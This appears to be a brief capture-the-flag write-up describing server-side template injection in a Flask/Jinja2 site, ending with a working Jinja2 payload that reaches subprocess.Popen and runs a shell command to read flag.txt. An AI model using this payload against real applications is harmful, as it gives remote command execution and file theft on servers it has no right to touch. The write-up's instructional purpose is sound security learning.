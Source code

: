 
the website reveals that flask/jinja2 is used, this stack might be vulnerable to SSTI

testing a payload like /{{7\*7}} shows it is being evaluated as '49'

it is possible to inject payloads such as config.items()

the payload to the flag will be the following

```python
{{config.__class__.__mro__[2].__subclasses__()[414]("cat%20flag.txt",shell=True,stdout=-1).communicate()}}
```
(414 is the index of subprocess.popen() which allows for command execution in the server)
